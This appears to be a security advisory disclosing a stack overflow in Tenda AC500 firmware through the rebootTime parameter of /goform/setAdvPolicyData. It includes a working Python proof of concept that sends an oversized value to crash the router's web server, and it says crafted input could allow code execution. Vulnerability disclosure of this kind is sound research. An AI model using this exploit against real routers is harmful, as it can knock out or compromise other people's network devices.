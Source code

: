 # Affected Version
Tenda AC500 V2.0.1.9(1307)
# Vulnerability Description
Tenda AC500 V2.0.1.9(1307) was discovered to contain a stack overflow via parameter rebootTime at url /goform/setAdvPolicyData.

# Firmware download address
https://www.tenda.com.cn/download/detail-2470.html

# Vulnerability Details
In function sub_50BFC line 38, v21 is a a user-controlled parameter(‘rebootTime’) and is read in without length check.Then in line 19, the content of v21 is copied into local variable v9, which leads to a stack overflow vulnerbility.
![Alt text](1.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of bin/httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'policyType':'reboot',
    'rebootTime': ':'+'a' * 0x1000}

headers = {
    'Host': '192.168.88.138',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.138/goform/setAdvPolicyData'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

# Timeline  

# Acknowledgment  
Credit to @peris-navince from Beijing University of Posts and Telecommunications.